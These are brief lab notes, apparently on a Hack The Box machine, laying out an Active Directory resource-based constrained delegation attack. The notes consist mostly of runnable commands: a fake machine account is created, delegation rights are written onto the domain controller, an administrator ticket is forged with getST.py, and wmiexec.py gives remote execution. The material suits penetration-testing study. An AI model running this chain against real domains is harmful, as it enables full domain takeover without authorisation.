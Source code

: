 found the abuse info from bloodhound application
for DC privesec 

Resource-based Constrained Delegation

Referance 
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation

Another referance 
Old Htb box intelligence https://0xdf.gitlab.io/2021/11/27/htb-intelligence.html

#add fake computer

New-MachineAccount -MachineAccount user911 -Password $(ConvertTo-SecureString 'password@1' -AsPlainText -Force) -Verbose
Get-DomainComputer user911


Set-ADComputer dc -PrincipalsAllowedToDelegateToAccount user911$
Get-ADComputer dc -Properties PrincipalsAllowedToDelegateToAccount 


$ComputerSid = Get-DomainComputer user911 -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer dc| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked

Get-DomainComputer dc -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}

Get the ticket

getST.py -dc-ip 10.10.11.174 -spn www/dc.support.htb -impersonate administrator 'support.htb/user911:password@1'

exporting env 

KRB5CCNAME=administrator.ccache

wmiexec.py -k -no-pass administrator@dc.support.htb